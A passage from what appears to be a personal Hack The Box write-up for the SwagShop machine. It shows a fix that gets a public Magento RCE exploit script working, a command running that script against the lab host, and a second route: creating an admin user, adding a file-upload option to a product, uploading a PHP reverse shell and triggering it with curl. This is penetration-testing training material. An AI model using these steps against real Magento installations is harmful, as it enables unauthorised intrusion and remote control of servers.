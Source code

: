 	2. Simply google the error, found [this](https://stackoverflow.com/questions/35226169/clientform-ambiguityerror-more-than-one-control-matching-name)
	3. Modified code
		```
		# Add
		br.select_form(nr=0)
		userone = br.find_control(name="login[username]", nr=0)
		userone.value = username
		pwone = br.find_control(name="login[password]", nr=0)
		pwone.value = password
		```
		![]({{ page.img_path }}Pasted%20image%2020220912195104.png)
3. We are all done!
	```
	┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
	└─# python2 37811.py http://swagshop.htb/index.php/admin "uname -a"
	```
	![]({{ page.img_path }}Pasted%20image%2020220912195238.png)

4. Demo - Magento RCE
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="magento_rce"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/SwagShop/images/magento_rce.cast', document.getElementById('magento_rce'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>

# Initial Foothold - 2
## TCP/80 (HTTP) - Magento RCE via Uploading a reverse shell
1. After rooting the machine, I saw a [post](https://medium.com/swlh/magento-exploitation-from-customer-to-server-user-access-70929e7bb634) that shows another way to obtain `www-data`
2. Prerequisite:
	- Insert an admin user w/ `xml/webapps/37977.py`	
	- Login to `index.php/admin`
3. We are able to upload a reverse shell by adding an upload function into one of the products 
	1. Proceed to `Catalog -> Manage Products -> Any Product -> Custom Options`
		![]({{ page.img_path }}Pasted%20image%2020220912212816.png)
	2. Head back to `index.php`, 
		1. Select the `5x Hack The Box Sticker` 
		2. Upload `php-reverse-shell.php`
		3. Add to cart
		![]({{ page.img_path }}Pasted%20image%2020220912213116.png)
	1. Start listener
	2. Execute reverse shell 
		```
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# curl http://swagshop.htb/media/custom_options/quote/p/h/e2075b164cf1b49a228f961afec5db7b.php